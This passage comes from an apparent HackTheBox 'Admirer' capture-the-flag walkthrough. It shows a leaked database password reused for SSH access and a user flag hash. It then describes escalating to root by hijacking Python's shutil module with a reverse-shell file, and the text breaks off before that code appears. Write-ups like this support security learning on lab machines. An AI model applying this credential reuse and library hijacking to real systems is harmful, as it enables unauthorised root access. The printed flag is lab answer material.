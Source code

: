 ```
Clicking into warning we can see the following credentials disclosure:

```
$servername = "localhost";'
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";' 
```

We have one more credential so let's try out the ssh, either way we will go back into the file or login into the adminer (spoiler, those credential didnt work in the adminer login).

Using those credentials on ssh we got access as waldo

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/11_user.png" width="500"/>
</p>

```
user.txt:9ff9185225daf6efd28dc40a07fc4271 
```

## Privilege scalation

We can see waldo can run admin_tasks.sh

<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/12_sudo_l.png" width="500"/>
</p>

admin_tasks.sh has functions to backup the passwd and shadow files, but the privileges of the generated files are only for root, so we got nothing to do there. Before getting into pe tools, we can see a python script with root privileges on the same directory:


<p align="center">
  <img src="/images/walkthroughs/hackthebox/admirer/12_opt.png" width="500"/>
</p>

And on the admin_tasks.sh we can run we see that the backup.py is executed

{% highlight bash %}

#!/bin/bash

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

{% endhighlight %}

The python script imports shutil -> make_archive and then call it. We can hijack the library and get arbitrary code executed:


We will create a file with a reverse shell called as the library we want to hijack )_shutil.py_) and the function it imports (_make_archive_) with the following content:
```